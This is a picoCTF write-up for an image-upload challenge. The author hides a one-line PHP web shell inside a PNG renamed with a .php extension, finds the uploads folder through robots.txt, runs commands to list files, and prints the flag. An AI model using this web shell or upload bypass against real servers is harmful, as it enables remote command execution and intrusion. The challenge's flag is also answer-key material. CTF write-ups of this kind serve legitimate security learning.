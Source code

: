 # Description: #
Description
I found a web app that can help process images: PNG images only!

# Solution #
Based on the description, I knew that it would be a file upload vulnerability, png file to be specific.

My payload:
```php
<?php system($_GET['cmd']); ?>
```
I inject it to a png file named blue.png I downloaded online and renamed it to [blue.png.php](blue.png.php)

Upload result:

![img](1.png)

However, I did't know the file location, so I tried visiting robots.txt for more information.

robots.txt:
```
User-agent: *
Disallow: /instructions.txt
Disallow: /uploads/
```
So the file was likely stored in /uploads/blue.png.php.

/uploads/blue.png.php
```
�PNG  IHDR��
Warning: Undefined array key "cmd" in /var/www/html/uploads/blue.png.php on line 5

Fatal error: Uncaught ValueError: system(): Argument #1 ($command) cannot be empty in /var/www/html/uploads/blue.png.php:5 Stack trace: #0 /var/www/html/uploads/blue.png.php(5): system('') #1 {main} thrown in /var/www/html/uploads/blue.png.php on line 5
```
/uploads/blue.png.php?cmd=ls -a:
```
�PNG  IHDR�� . .. blue.png.php ; m"HPLTE���'�W�HIDATx����à�S_�U� ƢW[�IEND�B`�
```

/uploads/blue.png.php?cmd=ls -a ..
```
�PNG  IHDR�� . .. G4ZTCOJYMJSDS.txt index.php instructions.txt robots.txt uploads ; m"HPLTE���'�W�HIDATx����à�S_�U� ƢW[�IEND�B`�
```

/uploads/blue.png.php?cmd=cat ../G4ZTCOJYMJSDS.txt
```
�PNG  IHDR�� /* picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_73198bd9} */; m"HPLTE���'�W�HIDATx����à�S_�U� ƢW[�IEND�B`�
```

Flag: picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_73198bd9}
